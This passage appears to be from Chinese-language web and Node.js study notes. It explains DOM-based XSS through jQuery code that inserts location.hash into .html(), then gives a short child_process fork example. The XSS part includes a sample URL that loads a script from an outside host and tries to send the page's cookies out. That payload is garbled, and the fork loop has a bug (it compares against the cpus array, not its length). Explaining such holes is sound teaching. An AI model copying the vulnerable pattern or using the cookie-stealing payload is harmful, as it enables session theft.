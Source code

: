 ### XSS攻击 Cross Site Scripting
前端代码`$('#box').html(location.hash.replace('#', ''));`， 用户将url改为`http://a.com/pathname#<script src="http://b.com/c.js" + + document.cookie></script>`，这样对方边可以获得本机当前域名下的cookie。

## 进程相关
### child_process模块
```js
// worker.js就是实际工作的，用于创建http服务的文件
var fork = require('child_process').fork;
var cpus = require('os').cpus();
for(let i=0; i < cpus; i++){
  fork('./worker.js');
}
```
![image](https://raw.githubusercontent.com/zhaozy93/blog/master/img-bed/nodejs23.jpeg)
